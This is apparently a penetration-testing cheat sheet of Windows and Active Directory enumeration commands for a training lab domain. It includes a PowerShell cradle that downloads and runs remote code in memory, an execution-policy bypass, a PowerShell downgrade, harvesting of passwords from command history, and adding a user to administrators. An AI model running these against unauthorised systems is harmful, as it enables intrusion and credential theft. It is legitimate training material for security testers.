 ### **Basic Enumeration Commands**
1. Prints the PC's Name: `hostname`
2. Prints out the OS version and revision level: `[System.Environment]::OSVersion.Version`
3. Prints the patches and hotfixes applied to the host: `wmic qfe get Caption,Description,HotFixID,InstalledOn`
4. Prints out network adapter state and configurations: `ipconfig /all`
5. Displays a list of environment variables for the current session (ran from CMD-prompt): `set`
6. Displays the domain name to which the host belongs (ran from CMD-prompt): `echo %USERDOMAIN%`
7. Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt): `echo %logonserver%`
8. Systeminfo: `systeminfo`
9. Using qwinsta to list logged users: `qwinsta`
### **Harnessing PowerShell**
1. Lists available modules loaded for use.: `Get-Module`
2. Will print the execution policy settings for each scope on a host.: `Get-ExecutionPolicy -List`
3. This will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.: `Set-ExecutionPolicy Bypass -Scope Process`
4. With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.: `Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`
5. Return environment values such as key paths, users, computer information, etc.: `Get-ChildItem Env: | ft Key,Value`
6. This is a quick and easy way to download a file from the web using PowerShell and call it from memory.: `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"`
7. Downgrade Powershell: `powershell.exe -version 2`
### **Checking Defenses**
1. Firewall Checks: `netsh advfirewall show allprofiles`
2. Windows Defender Check (from CMD.exe): `sc query windefend`
3. Get-MpComputerStatus: `Get-MpComputerStatus`
### **Network Information**
1. Lists all known hosts stored in the arp table.: `arp -a `
2. Prints out adapter settings for the host. We can figure out the network segment from here.: `ipconfig /all`
3. Displays the routing table (IPv4 & IPv6) identifying known networks and layer three routes shared with the host.: `route print`
4. Displays the status of the host's firewall. We can determine if it is active and filtering traffic.: `netsh advfirewall show state`
### **Windows Management Instrumentation (WMI)**
1. Prints the patch level and description of the Hotfixes applied: `wmic qfe get Caption,Description,HotFixID,InstalledOn`
2. Displays basic host information to include any attributes within the list: `wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List`
3. A listing of all processes on host: `wmic process list /format:list`
4. Displays information about the Domain and Domain Controllers: `wmic ntdomain list /format:list`
5. Displays information about all local accounts and any domain accounts that have logged into the device: `wmic useraccount list /format:list`
6. Information about all local groups: `wmic group list /format:list`
7. Dumps information about any system accounts that are being used as service accounts.: `wmic sysaccount list /format:list`
### **Net Commands**
1. Information about password requirements: `net accounts`
2. Password and lockout policy: `net accounts /domain`
3. Information about domain groups: `net group /domain`
4. List users with domain admin privileges: `net group "Domain Admins" /domain`
5. List of PCs connected to the domain: `net group "domain computers" /domain`
6. List PC accounts of domains controllers: `net group "Domain Controllers" /domain`
7. User that belongs to the group: `net group <domain_group_name> /domain`
8. List of domain groups: `net groups /domain`
9. All available groups: `net localgroup`
10. List users that belong to the administrators group inside the domain (the group Domain Admins is included here by default): `net localgroup administrators /domain`
11. Information about a group (admins): `net localgroup Administrators`
12. Add user to administrators: `net localgroup administrators [username] /add`
13. Check current shares: `net share`
14. Get information about a user within the domain: `net user <ACCOUNT_NAME> /domain`
15. List all users of the domain: `net user /domain`
16. Information about the current user: `net user %username%`
17. Mount the share locally: `net use x: \computer\share`
18. Get a list of computers: `net view`
19. Shares on the domains: `net view /all /domain[:domainname]`
20. List shares of a computer: `net view \computer /ALL`
21. List of PCs of the domain: `net view /domain `
### **Dsquery**
1. User Search: `dsquery user`
2. Computer Search: `dsquery computer`
3. Wildcard Search: `dsquery * "CN=Users,DC=INLANEFREIGHT,DC=LOCAL"`
4. Users With Specific Attributes Set (PASSWD_NOTREQD): `dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl`
5. Searching for Domain Controllers: `dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName`

